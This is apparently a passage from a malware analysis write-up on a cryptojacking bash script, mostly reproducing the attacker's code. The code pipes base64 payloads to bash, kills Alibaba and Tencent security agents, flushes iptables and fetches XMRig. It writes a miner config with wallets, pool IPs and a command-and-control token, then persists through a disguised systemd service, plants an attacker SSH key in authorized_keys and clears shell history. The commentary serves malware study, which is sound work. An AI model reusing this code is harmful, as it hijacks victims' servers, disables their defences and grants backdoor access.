ke3Zhcn0uZC9TODBhZWdpcyIKCQkJZmkKCQlkb25lCiAgICBmaQoKfQoKc3RvcF9hZWdpcwpzdG9wX3F1YXJ0egp1bmluc3RhbGxfc2VydmljZQpyZW1vdmVfYWVnaXMKcmVtb3ZlX3F1YXJ0egoKcHJpbnRmICIlLTQwcyAlNDBzXG4iICJVbmluc3RhbGxpbmcgYWVnaXNfcXVhcnR6IiAgIlsgIE9LICBdIgoKCgo=' | base64 -d | bash
pkill aliyun-service 2>/dev/null 1>/dev/null
rm -rf /etc/init.d/agentwatch 2>/dev/null 1>/dev/null
rm -fr /usr/sbin/aliyun-service 2>/dev/null 1>/dev/null
rm -rf /usr/local/aegis* 2>/dev/null 1>/dev/null
systemctl stop aliyun.service 2>/dev/null 1>/dev/null ; service aliyun stop 2>/dev/null 1>/dev/null
systemctl disable aliyun.service 2>/dev/null 1>/dev/null
systemctl stop bcm-agent 2>/dev/null 1>/dev/null ; service bcm-agent stop 2>/dev/null 1>/dev/null
if type yum 2>/dev/null 1>/dev/null; then yum remove bcm-agent -y 2>/dev/null 1>/dev/null ; fi
if type apt-get 2>/dev/null 1>/dev/null; then apt-get remove bcm-agent -y 2>/dev/null 1>/dev/null ; fi
elif ps aux | grep -i '[y]unjing' 2>/dev/null 1>/dev/null; then
/usr/local/qcloud/stargate/admin/uninstall.sh 2>/dev/null 1>/dev/null
/usr/local/qcloud/YunJing/uninst.sh 2>/dev/null 1>/dev/null
/usr/local/qcloud/monitor/barad/admin/uninstall.sh 2>/dev/null 1>/dev/null
fi
if [ -f /usr/local/cloudmonitor/wrapper/bin/cloudmonitor.sh ]; then
/usr/local/cloudmonitor/wrapper/bin/cloudmonitor.sh stop 2>/dev/null 1>/dev/null
/usr/local/cloudmonitor/wrapper/bin/cloudmonitor.sh remove 2>/dev/null 1>/dev/null
rm -rf /usr/local/cloudmonitor 2>/dev/null 1>/dev/null	
else export ARCH=amd64
if [ -f /usr/local/cloudmonitor/CmsGoAgent.linux-${ARCH} ]; then
/usr/local/cloudmonitor/CmsGoAgent.linux-${ARCH} stop 2>/dev/null 1>/dev/null
/usr/local/cloudmonitor/CmsGoAgent.linux-${ARCH} uninstall 2>/dev/null 1>/dev/null
rm -rf /usr/local/cloudmonitor 2>/dev/null 1>/dev/null	
#else echo "AliCloudMonitor NOT running" ; fi
fi
fi

if type iptables 2>/dev/null 1>/dev/null; then iptables -F 2>/dev/null; fi

if [[ -z $HOME ]]; then export HOME=/root ; fi
if [[ ! -d $HOME ]]; then mkdir -p $HOME ; fi
if [[ ! -d /usr/sbin/.configure/ ]]; then mkdir -p /usr/sbin/.configure/ 2>/dev/null 1>/dev/null; fi


function CLEAN_MY_OLD_STUFF(){
echo "[*] Removing previous miner (if any)"
systemctl stop account_daemons.service 2>/dev/null
systemctl stop moneroocean_miner.service 2>/dev/null
systemctl stop account_daemons.service 2>/dev/null

systemctl disable account_daemons.service 2>/dev/null
systemctl disable moneroocean_miner.service 2>/dev/null
systemctl disable account_daemons.service 2>/dev/null

#killall -9 xmrig 2>/dev/null
#killall -9 xmrigMiner 2>/dev/null

#echo "[*] Removing moneroocean/ directorys"
#rm -rf /usr/sbin/moneroocean/ 2>/dev/null
#rm -rf /usr/bin/moneroocean/ 2>/dev/null
#rm -rf $HOME/moneroocean/ 2>/dev/null
}

function CREATE_JSON_CONFIG(){

rm -f /usr/sbin/.configure/*.json 2>/dev/null

cat > /usr/sbin/.configure/config.json <<EOL
{
    "api": {
        "id": null,
        "worker-id": null
    },
    "http": {
        "enabled": false,
        "host": "127.0.0.1",
        "port": 0,
        "access-token": null,
        "restricted": true
    },
    "autosave": true,
    "background": true,
    "colors": true,
    "randomx": {
        "init": -1,
        "init-avx2": -1,
        "mode": "auto",
        "1gb-pages": false,
        "rdmsr": true,
        "wrmsr": true,
        "cache_qos": false,
        "numa": true,
        "scratchpad_prefetch_mode": 1
    },
    "cpu": {
        "enabled": true,
        "huge-pages": true,
        "huge-pages-jit": false,
        "hw-aes": null,
        "priority": null,
        "memory-pool": false,
        "yield": true,
        "force-autoconfig": false,
        "max-threads-hint": 100,
        "max-cpu-usage": 80,
        "asm": true,
        "argon2-impl": null,
        "astrobwt-max-size": 550,
        "astrobwt-avx2": false,
        "cn/0": false,
        "cn-lite/0": false
    },
    "donate-level": 1,
    "donate-over-proxy": 1,
    "log-file": "/usr/sbin/.configure/xmrig.log",
    "pools": [
        {
            "algo": null,
            "coin": "monero",
            "url": "94.130.12.27:443",
            "user": "84hYzyMkfn8RAb5yMq7v7QfcZ3zgBhsGxYjMKcZU8E43ZDDwDAdKY5t84TMZqfPVW84Dq58AhP3AbUNoxznhvxEaV23f57T",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": true,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "94.130.12.27:3333",
            "user": "84hYzyMkfn8RAb5yMq7v7QfcZ3zgBhsGxYjMKcZU8E43ZDDwDAdKY5t84TMZqfPVW84Dq58AhP3AbUNoxznhvxEaV23f57T",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "pool.supportxmr.com:3333",
            "user": "84hYzyMkfn8RAb5yMq7v7QfcZ3zgBhsGxYjMKcZU8E43ZDDwDAdKY5t84TMZqfPVW84Dq58AhP3AbUNoxznhvxEaV23f57T",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },      
        {
            "algo": null,
            "coin": "monero",
            "url": "3.125.10.23:10128",
            "user": "438ss2gYTKze7kMqrgUagwEjtm993CVHk1uKHUBZGy6yPaZ2WNe5vdDFXGoVvtf7wcbiAUJix3NR9Ph1aq2NqSgyBkVFEtZ",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "3.125.10.23:443",
            "user": "438ss2gYTKze7kMqrgUagwEjtm993CVHk1uKHUBZGy6yPaZ2WNe5vdDFXGoVvtf7wcbiAUJix3NR9Ph1aq2NqSgyBkVFEtZ+128000",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": true,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "gulf.moneroocean.stream:10128",
            "user": "438ss2gYTKze7kMqrgUagwEjtm993CVHk1uKHUBZGy6yPaZ2WNe5vdDFXGoVvtf7wcbiAUJix3NR9Ph1aq2NqSgyBkVFEtZ",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        }     
    ],
    "cc-client": {
        "enabled": true,
        "url": "45.9.148.182:4321",
        "access-token": "a97be72001bd9970d20dcf1cdddeaf63",
        "use-tls": true,
        "use-remote-logging": true,
        "upload-config-on-start": true,
        "worker-id": null,
        "reboot-cmd": null,
        "update-interval-s": 30
    },
    "print-time": 60,
    "health-print-time": 60,
    "retries": 5,
    "retry-pause": 5,
    "syslog": false,
    "user-agent": null,
    "verbose": 0,
    "watch": true
}
EOL

PASS=`hostname | cut -f1 -d"." | sed -r 's/[^a-zA-Z0-9\-]+/_/g'`
sed -i 's/"pass": *"[^"]*",/"pass": "'$PASS'",/' /usr/sbin/.configure/config.json

cp /usr/sbin/.configure/config.json /usr/sbin/.configure/config_background.json
sed -i 's/"background": *false,/"background": true,/' /usr/sbin/.configure/config_background.json

}


function DOWNLOAD_FILE(){

echo "[*] Downloading advanced xmrig to /usr/sbin/.configure/xmrig.tar.gz"
if type wget 2>/dev/null 1>/dev/null; then wget -q $XMR_1_BIN_URL -O /usr/sbin/.configure/xmrig.tar.gz
elif type wd1 2>/dev/null 1>/dev/null; then wd1 -q $XMR_1_BIN_URL -O /usr/sbin/.configure/xmrig.tar.gz
elif type wdl 2>/dev/null 1>/dev/null; then wdl -q $XMR_1_BIN_URL -O /usr/sbin/.configure/xmrig.tar.gz
	elif type curl 2>/dev/null 1>/dev/null; then curl -s $XMR_1_BIN_URL -o /usr/sbin/.configure/xmrig.tar.gz
	elif type cd1 2>/dev/null 1>/dev/null; then cd1 -s $XMR_1_BIN_URL -o /usr/sbin/.configure/xmrig.tar.gz
	elif type cdl 2>/dev/null 1>/dev/null; then cdl -s $XMR_1_BIN_URL -o /usr/sbin/.configure/xmrig.tar.gz
elif type bash 2>/dev/null 1>/dev/null; then C_hg_DLOAD $XMR_1_BIN_URL > /usr/sbin/.configure/xmrig.tar.gz
fi

tar -xvf /usr/sbin/.configure/xmrig.tar.gz -C /usr/sbin/.configure/ 2>/dev/null
rm -f /usr/sbin/.configure/xmrig.tar.gz 2>/dev/null 1>/dev/null

chmod +x /usr/sbin/.configure/xmrig
if [ -f "/usr/sbin/.configure/xmrigMiner" ];then chmod +x /usr/sbin/.configure/xmrigMiner; fi

/usr/sbin/.configure/xmrig -h 2>/dev/null 1>/dev/null
CHECK_XMRIG=$?
if [[ "$CHECK_XMRIG" != "0" ]]; then
if [ -f /usr/sbin/.configure/xmrig ]
then echo "WARNING: /usr/sbin/.configure/xmrig is not functional"
if [ -f "/usr/sbin/.configure/xmrig" ];then rm -f /usr/sbin/.configure/xmrig; fi
if [ -f "/usr/sbin/.configure/xmrigMiner" ];then rm -f /usr/sbin/.configure/xmrigMiner; fi
else 
echo "WARNING: /usr/sbin/.configure/xmrig was removed"
if [ -f "/usr/sbin/.configure/xmrigMiner" ];then rm -f /usr/sbin/.configure/xmrigMiner; fi
fi
# ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

echo "[*] Downloading xmrigCC to /usr/sbin/.configure/xmrig.tar.gz"
sed -i 's/"donate-level": *[^,]*,/"donate-level": 1,/' /usr/sbin/.configure/config.json
if type wget 2>/dev/null 1>/dev/null; then wget -q $XMR_2_BIN_URL -O /usr/sbin/.configure/xmrig.tar.gz
elif type wd1 2>/dev/null 1>/dev/null; then wd1 -q $XMR_2_BIN_URL -O /usr/sbin/.configure/xmrig.tar.gz
elif type wdl 2>/dev/null 1>/dev/null; then wdl -q $XMR_2_BIN_URL -O /usr/sbin/.configure/xmrig.tar.gz
	elif type curl 2>/dev/null 1>/dev/null; then curl -s $XMR_2_BIN_URL -o /usr/sbin/.configure/xmrig.tar.gz
	elif type cd1 2>/dev/null 1>/dev/null; then cd1 -s $XMR_2_BIN_URL -o /usr/sbin/.configure/xmrig.tar.gz
	elif type cdl 2>/dev/null 1>/dev/null; then cdl -s $XMR_2_BIN_URL -o /usr/sbin/.configure/xmrig.tar.gz
elif type bash 2>/dev/null 1>/dev/null; then C_hg_DLOAD $XMR_2_BIN_URL > /usr/sbin/.configure/xmrig.tar.gz
fi

tar -xvf /usr/sbin/.configure/xmrig.tar.gz -C /usr/sbin/.configure/ 2>/dev/null
rm -f /usr/sbin/.configure/xmrig.tar.gz 2>/dev/null 1>/dev/null

chmod +x /usr/sbin/.configure/xmrig
if [ -f "/usr/sbin/.configure/xmrigMiner" ];then chmod +x /usr/sbin/.configure/xmrigMiner; fi

/usr/sbin/.configure/xmrig -h 2>/dev/null 1>/dev/null
CHECK_XMRIG=$?
if [[ "$CHECK_XMRIG" != "0" ]]; then
if [ -f /usr/sbin/.configure/xmrig ]
then echo "WARNING: /usr/sbin/.configure/xmrig is not functional"
if [ -f "/usr/sbin/.configure/xmrig" ];then rm -f /usr/sbin/.configure/xmrig; fi
if [ -f "/usr/sbin/.configure/xmrigMiner" ];then rm -f /usr/sbin/.configure/xmrigMiner; fi
else 
echo "WARNING: /usr/sbin/.configure/xmrig was removed"
if [ -f "/usr/sbin/.configure/xmrigMiner" ];then rm -f /usr/sbin/.configure/xmrigMiner; fi
fi

rm -f k32r.sh 2>/dev/null
exit

fi
fi

echo "[*] Miner /usr/sbin/.configure/xmrig is OK"

}

CPU_THREADS=$(nproc)
EXP_MONERO_HASHRATE=$(( CPU_THREADS * 700 / 1000))
if [ -z $PORT ]; then PORT="10128"; fi
if [ "$PORT" -lt "10001" -o "$PORT" -gt "18192" ]; then PORT="10128"; fi


echo "";echo "[*] $CPU_THREADS CPU threads";echo "[*] Hashrate $EXP_MONERO_HASHRATE KH/s.";echo "";sleep 2

CLEAN_MY_OLD_STUFF
CREATE_JSON_CONFIG
DOWNLOAD_FILE


echo "[*] Creating /usr/sbin/.configure/config.sh script"
cat >/usr/sbin/.configure/config.sh <<EOL
#!/bin/bash
if ! pidof xmrig >/dev/null; then
  nice /usr/sbin/.configure/xmrig \$*
else
  echo "Monero miner is already running in the background. Refusing to run another one."
  echo "Run \"killall xmrig\" or \"sudo killall xmrig\" if you want to remove background miner first."
fi
EOL

chmod +x /usr/sbin/.configure/config.sh

if ! sudo -n true 2>/dev/null; then
  if ! grep /usr/sbin/.configure/config.sh $HOME/.profile >/dev/null; then
    echo "[*] Adding /usr/sbin/.configure/config.sh script to $HOME/.profile"
    echo "/usr/sbin/.configure/config.sh -c /usr/sbin/.configure/config_background.json >/dev/null 2>&1" >>$HOME/.profile
  else 
    echo "Looks like /usr/sbin/.configure/config.sh script is already in the $HOME/.profile"
  fi
  echo "[*] Running miner in the background (see logs in /usr/sbin/.configure/xmrig.log file)"
  /bin/bash /usr/sbin/.configure/config.sh -c /usr/sbin/.configure/config_background.json >/dev/null 2>&1
else

  if [[ $(grep MemTotal /proc/meminfo | awk '{print $2}') > 3500000 ]]; then
    echo "[*] Enabling huge pages"
    echo "vm.nr_hugepages=$((1168+$(nproc)))" | sudo tee -a /etc/sysctl.conf
    sysctl -w vm.nr_hugepages=$((1168+$(nproc)))
  fi

  if ! type systemctl >/dev/null; then

    echo "[*] Running miner in the background (see logs in /usr/sbin/.configure/xmrig.log file)"
    /usr/sbin/.configure/xmrig -c /usr/sbin/.configure/config_background.json >/dev/null 2>&1


  else


function OLD_SERVICE(){
    echo "[*] Creating system_account_daemon systemd service"
    rm -f /etc/systemd/system/system_account_daemon.service >/dev/null
    
    cat >/etc/systemd/system/system_account_daemon.service <<EOL
[Unit]
Description=system account daemon service

[Service]
ExecStart=/usr/sbin/.configure/xmrig
StandardOutput=null

[Install]
WantedBy=multi-user.target
Alias=system_account_daemon.service
EOL

echo "[*] Starting system_account_daemon systemd service"
sleep 2
systemctl daemon-reload
sleep 2
systemctl enable system_account_daemon.service
sleep 2
systemctl start system_account_daemon.service
}

echo W1VuaXRdCkRlc2NyaXB0aW9uPVNBRCBTZXJ2aWNlIERhZW1vbgoKW1NlcnZpY2VdCkV4ZWNTdGFydD0vdXNyL3NiaW4vLmNvbmZpZ3VyZS94bXJpZwpTdGFuZGFyZE91dHB1dD1udWxsCgpbSW5zdGFsbF0KV2FudGVkQnk9bXVsdGktdXNlci50YXJnZXQKQWxpYXM9c2FkX3NlcnZpY2Uuc2VydmljZQo= | base64 -d > /lib/systemd/system/sad_service.service
systemctl daemon-reload
systemctl enable sad_service.service
systemctl start sad_service.service
systemctl status sad_service.service

# systemctl is-enabled sad_service.service

  fi
fi

mkdir -p /root/.ssh/ 2>/dev/null 1>/dev/null
echo $ID_RSA_KEY >> /root/.ssh/authorized_keys2
cat /root/.ssh/authorized_keys2 >> /root/.ssh/authorized_keys
mkdir -p /home/hilde/.ssh/ 2>/dev/null 1>/dev/null
cat /root/.ssh/authorized_keys2 >> /home/hilde/.ssh/authorized_keys
cat /home/hilde/.ssh/authorized_keys > /home/hilde/.ssh/authorized_keys2

history -c 2>/dev/null 1>/dev/null
echo "[*] Setup complete"
rm -f k32r.sh 2>/dev/null
sleep 3
#clear
```

This script downloads an XMRig crypto miner to start mining monero. It has other scripts embedded in it that are encoded in base64. <br><br>

Two of the scripts look like they disable/uninstall the Aegis service. I believe this is a virus scanner that is provided in the Alibaba Cloud OS.

```
#!/bin/bash

AEGIS_INSTALL_DIR="/usr/local/aegis"
#check linux Gentoo os 
var=`lsb_release -a | grep Gentoo`
if [ -z "${var}" ]; then 
	var=`cat /etc/issue | grep Gentoo`
fi
checkCoreos=`cat /etc/os-release 2>/dev/null | grep coreos`
if [ -d "/etc/runlevels/default" -a -n "${var}" ]; then
	LINUX_RELEASE="GENTOO"
elif [ -f "/etc/os-release" -a -n "${checkCoreos}" ]; then
	LINUX_RELEASE="COREOS"
	AEGIS_INSTALL_DIR="/opt/aegis"
else 
	LINUX_RELEASE="OTHER"
fi		

stop_aegis_pkill(){
    pkill -9 AliYunDun >/dev/null 2>&1
    pkill -9 AliHids >/dev/null 2>&1
    pkill -9 AliHips >/dev/null 2>&1
    pkill -9 AliNet >/dev/null 2>&1
    pkill -9 AliSecGuard >/dev/null 2>&1
    pkill -9 AliYunDunUpdate >/dev/null 2>&1
    
    /usr/local/aegis/AliNet/AliNet --stopdriver
    /usr/local/aegis/alihips/AliHips --stopdriver
    /usr/local/aegis/AliSecGuard/AliSecGuard --stopdriver
    printf "%-40s %40s\n" "Stopping aegis" "[  OK  ]"
}

# can not remove all aegis folder, because there is backup file in globalcfg
remove_aegis(){
kprobeArr=(
    "/sys/kernel/debug/tracing/instances/aegis_do_sys_open/set_event"
    "/sys/kernel/debug/tracing/instances/aegis_inet_csk_accept/set_event"
    "/sys/kernel/debug/tracing/instances/aegis_tcp_connect/set_event"
    "/sys/kernel/debug/tracing/instances/aegis/set_event"
    "/sys/kernel/debug/tracing/instances/aegis_/set_event"
    "/sys/kernel/debug/tracing/instances/aegis_accept/set_event"
    "/sys/kernel/debug/tracing/kprobe_events"
    "/usr/local/aegis/aegis_debug/tracing/set_event"
    "/usr/local/aegis/aegis_debug/tracing/kprobe_events"
)
for value in ${kprobeArr[@]}
do
    if [ -f "$value" ]; then
        echo > $value
    fi
done
if [ -d "${AEGIS_INSTALL_DIR}" ];then
    umount ${AEGIS_INSTALL_DIR}/aegis_debug
    if [ -d "${AEGIS_INSTALL_DIR}/cgroup/cpu" ];then
        umount ${AEGIS_INSTALL_DIR}/cgroup/cpu
    fi
    if [ -d "${AEGIS_INSTALL_DIR}/cgroup" ];then
        umount ${AEGIS_INSTALL_DIR}/cgroup
    fi
    rm -rf ${AEGIS_INSTALL_DIR}/aegis_client
    rm -rf ${AEGIS_INSTALL_DIR}/aegis_update
	rm -rf ${AEGIS_INSTALL_DIR}/alihids
    rm -rf ${AEGIS_INSTALL_DIR}/globalcfg/domaincfg.ini
fi
}

uninstall_service() {
   
   if [ -f "/etc/init.d/aegis" ]; then
		/etc/init.d/aegis stop  >/dev/null 2>&1
		rm -f /etc/init.d/aegis 
   fi

	if [ $LINUX_RELEASE = "GENTOO" ]; then
		rc-update del aegis default 2>/dev/null
		if [ -f "/etc/runlevels/default/aegis" ]; then
			rm -f "/etc/runlevels/default/aegis" >/dev/null 2>&1;
		fi
    elif [ -f /etc/init.d/aegis ]; then
         /etc/init.d/aegis  uninstall
	    for ((var=2; var<=5; var++)) do
			if [ -d "/etc/rc${var}.d/" ];then
				 rm -f "/etc/rc${var}.d/S80aegis"
		    elif [ -d "/etc/rc.d/rc${var}.d" ];then
				rm -f "/etc/rc.d/rc${var}.d/S80aegis"
			fi
		done
    fi

}

stop_aegis_pkill
uninstall_service
remove_aegis
umount ${AEGIS_INSTALL_DIR}/aegis_debug


printf "%-40s %40s\n" "Uninstalling aegis"  "[  OK  ]"
```

```
#!/bin/bash

#check linux Gentoo os 
var=`lsb_release -a | grep Gentoo`
if [ -z "${var}" ]; then 
	var=`cat /etc/issue | grep Gentoo`
fi

if [ -d "/etc/runlevels/default" -a -n "${var}" ]; then
	LINUX_RELEASE="GENTOO"
else
	LINUX_RELEASE="OTHER"
fi

stop_aegis(){
	killall -9 aegis_cli >/dev/null 2>&1
	killall -9 aegis_update >/dev/null 2>&1
	killall -9 aegis_cli >/dev/null 2>&1
    printf "%-40s %40s\n" "Stopping aegis" "[  OK  ]"
}

stop_quartz(){
	killall -9 aegis_quartz >/dev/null 2>&1
        printf "%-40s %40s\n" "Stopping quartz" "[  OK  ]"
}

remove_aegis(){
if [ -d /usr/local/aegis ];then
    rm -rf /usr/local/aegis/aegis_client
    rm -rf /usr/local/aegis/aegis_update
fi
}

remove_quartz(){
if [ -d /usr/local/aegis ];then
	rm -rf /usr/local/aegis/aegis_quartz
fi
}


uninstall_service() {
   
   if [ -f "/etc/init.d/aegis" ]; then
		/etc/init.d/aegis stop  >/dev/null 2>&1
		rm -f /etc/init.d/aegis 
   fi

	if [ $LINUX_RELEASE = "GENTOO" ]; then
		rc-update del aegis default 2>/dev/null
		if [ -f "/etc/runlevels/default/aegis" ]; then
			rm -f "/etc/runlevels/default/aegis" >/dev/null 2>&1;
		fi
    elif [ -f /etc/init.d/aegis ]; then
         /etc/init.d/aegis  uninstall
	    for ((var=2; var<=5; var++)) do
			if [ -d "/etc/rc${var}.d/" ];then
				 rm -f "/etc/rc${var}.d/S80aegis"
		    elif [ -d "/etc/rc.d/rc${var}.d" ];then
				rm -f "/etc/rc.d/rc${var}.d/S80aegis"
			fi
		done
    fi

}

stop_aegis
stop_quartz
uninstall_service
remove_aegis
remove_quartz

printf "%-40s %40s\n" "Uninstalling aegis_quartz"  "[  OK  ]"
```
---

It also looks to disable the Cloud Workload Protection service provided by Tencent Cloud and the cloudmonitor CmsGoAgent also located in the Alibaba Cloud OS.

After it disables various protections, it removes any previous XMRig miners and reinstalls with a new custom config. The config is below with wallets and pools included.

```
{
    "api": {
        "id": null,
        "worker-id": null
    },
    "http": {
        "enabled": false,
        "host": "127.0.0.1",
        "port": 0,
        "access-token": null,
        "restricted": true
    },
    "autosave": true,
    "background": true,
    "colors": true,
    "randomx": {
        "init": -1,
        "init-avx2": -1,
        "mode": "auto",
        "1gb-pages": false,
        "rdmsr": true,
        "wrmsr": true,
        "cache_qos": false,
        "numa": true,
        "scratchpad_prefetch_mode": 1
    },
    "cpu": {
        "enabled": true,
        "huge-pages": true,
        "huge-pages-jit": false,
        "hw-aes": null,
        "priority": null,
        "memory-pool": false,
        "yield": true,
        "force-autoconfig": false,
        "max-threads-hint": 100,
        "max-cpu-usage": 80,
        "asm": true,
        "argon2-impl": null,
        "astrobwt-max-size": 550,
        "astrobwt-avx2": false,
        "cn/0": false,
        "cn-lite/0": false
    },
    "donate-level": 1,
    "donate-over-proxy": 1,
    "log-file": "/usr/sbin/.configure/xmrig.log",
    "pools": [
        {
            "algo": null,
            "coin": "monero",
            "url": "94.130.12.27:443",
            "user": "84hYzyMkfn8RAb5yMq7v7QfcZ3zgBhsGxYjMKcZU8E43ZDDwDAdKY5t84TMZqfPVW84Dq58AhP3AbUNoxznhvxEaV23f57T",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": true,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "94.130.12.27:3333",
            "user": "84hYzyMkfn8RAb5yMq7v7QfcZ3zgBhsGxYjMKcZU8E43ZDDwDAdKY5t84TMZqfPVW84Dq58AhP3AbUNoxznhvxEaV23f57T",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "pool.supportxmr.com:3333",
            "user": "84hYzyMkfn8RAb5yMq7v7QfcZ3zgBhsGxYjMKcZU8E43ZDDwDAdKY5t84TMZqfPVW84Dq58AhP3AbUNoxznhvxEaV23f57T",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },      
        {
            "algo": null,
            "coin": "monero",
            "url": "3.125.10.23:10128",
            "user": "438ss2gYTKze7kMqrgUagwEjtm993CVHk1uKHUBZGy6yPaZ2WNe5vdDFXGoVvtf7wcbiAUJix3NR9Ph1aq2NqSgyBkVFEtZ",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "3.125.10.23:443",
            "user": "438ss2gYTKze7kMqrgUagwEjtm993CVHk1uKHUBZGy6yPaZ2WNe5vdDFXGoVvtf7wcbiAUJix3NR9Ph1aq2NqSgyBkVFEtZ+128000",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": true,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        },{
            "algo": null,
            "coin": "monero",
            "url": "gulf.moneroocean.stream:10128",
            "user": "438ss2gYTKze7kMqrgUagwEjtm993CVHk1uKHUBZGy6yPaZ2WNe5vdDFXGoVvtf7wcbiAUJix3NR9Ph1aq2NqSgyBkVFEtZ",
            "pass": null,
            "rig-id": null,
            "nicehash": false,
            "keepalive": true,
            "enabled": true,
            "tls": false,
            "tls-fingerprint": null,
            "daemon": false,
            "socks5": null,
            "self-select": null
        }     
    ],
    "cc-client": {
        "enabled": true,
        "url": "45.9.148.182:4321",
        "access-token": "a97be72001bd9970d20dcf1cdddeaf63",
        "use-tls": true,
        "use-remote-logging": true,
        "upload-config-on-start": true,
        "worker-id": null,
        "reboot-cmd": null,
        "update-interval-s": 30
    },
    "print-time": 60,
    "health-print-time": 60,
    "retries": 5,
    "retry-pause": 5,
    "syslog": false,
    "user-agent": null,
    "verbose": 0,
    "watch": true
}
```

The XMRig miner is then installed as a service to stay running.

```
[Unit]
Description=SAD Service Daemon

[Service]
ExecStart=/usr/sbin/.configure/xmrig
StandardOutput=null

[Install]
WantedBy=multi-user.target
Alias=sad_service.service


systemctl daemon-reload
systemctl enable sad_service.service
systemctl start sad_service.service
systemctl status sad_service.service
```

Finally it installs the following SSH key into the .ssh/authorized_keys.

```
ID_RSA_KEY='ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQDYmuFzpuEpN/KHPbQkSUT1Xe/gVl3FpIe/GlhJEnW84rCMsYhRe2xxcPc1xfZd10JBhM1kEhs5aycIYiPvLYTRi7mA88hE15OVCkwgPT2HgaY8oetbiNiu18jBygbnku2/avpf/Xl2vkcNJRwHjkik3/Vid9fSleNWeAI+RGrMRRiP4hXVBQjHbuSFlw2VDg0uZINodP+n8oWBDHGnMGei9W6OXxQ3R5C+oKBw9NA3K/drsqvJh81jbEkDXyqCG0Nj0sAUk6o/aGIIQpwxI3ez2Vi/lqm5LYsRO6ICsHP6RXJT/08XkUVNMu7BLnje2RCG/kSKjVqW8QePyajHJ64kHwYf1yeyGfObZJWhUSP3yPK6UtGxBouyA/TPTqvba4vAmUy1Jl7hyWkoa4KUwgmsEizmT9n8GEg1USPXxRWNqv0VIi5160tcoujrB85HYwjwIhbphCqhTKyNwnnFJNratI1hGurgr8t0fflC/igLph8PapiayTwTLEbNwSUwVp8D3rvBkYB+XV2wO4+q24IoNZJO6ePXEA80jAVEa7eGhlnV5BUIIG+pYP/CkukcggyW+vGRTrl07KrvhAn9dLGDg1J8KZM2hMx5L/2ulgjKTjPZI566fL6Y0dDhPJZH8bxAq6i/ciXXZFeuaG4eCDkitPdSzhFtyuZQj712h6NLow== root@localhost'
```

---

### Misc Scripts

Something interesting I saw in here is that it seems like they have a script to setup WeaveScope which is a “visualization and monitoring tool for Docker and Kubernetes.”

<br><br>


```
#!/bin/sh

set -eu

ARGS="$*"
SCRIPT_VERSION="1.13.2"
if [ "$SCRIPT_VERSION" = "(unreleased version)" ]; then
    IMAGE_VERSION=latest
else
    IMAGE_VERSION="$SCRIPT_VERSION"
fi
IMAGE_VERSION=${VERSION:-$IMAGE_VERSION}
DOCKERHUB_USER=${DOCKERHUB_USER:-weaveworks}
SCOPE_IMAGE_NAME="$DOCKERHUB_USER/scope"
SCOPE_IMAGE="$SCOPE_IMAGE_NAME:$IMAGE_VERSION"
# Careful: it's easy to operate on (e.g. stop) the wrong scope instance
# when SCOPE{_APP,}_CONTAINER_NAME values differ between runs. Handle
# with care.
SCOPE_CONTAINER_NAME="${SCOPE_CONTAINER_NAME:-weaveTNTscope}"
SCOPE_APP_CONTAINER_NAME="${SCOPE_APP_CONTAINER_NAME:-weavescope-app}"
IP_REGEXP="[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}\\.[0-9]{1,3}"
IP_ADDR_CMD="find /sys/class/net -type l | xargs -n1 basename | grep -vE 'docker|veth|lo' | \
    xargs -n1 ip addr show | grep inet | awk '{ print \$2 }' | grep -oE '$IP_REGEXP'"
LISTENING_IP_ADDR_CMD="for I in \$( $IP_ADDR_CMD ); do if curl -m 1 -s \${I}:4040 > /dev/null ; then echo \${I}; fi; done"
WEAVESCOPE_DOCKER_ARGS=${WEAVESCOPE_DOCKER_ARGS:-}

# When docker daemon is running with User Namespace enabled, this tool will run into errors:
#  "Privileged mode is incompatible with user namespaces" for `docker run --privileged`
#  "Cannot share the host's network namespace when user namespaces are enabled" for `docker run --net=host`
# To avoid above errors, use `--userns=host` option to let container use host User Namespace.
# This option(saved in $USERNS_HOST) will be inserted ONLY IF docker support `--userns` option.
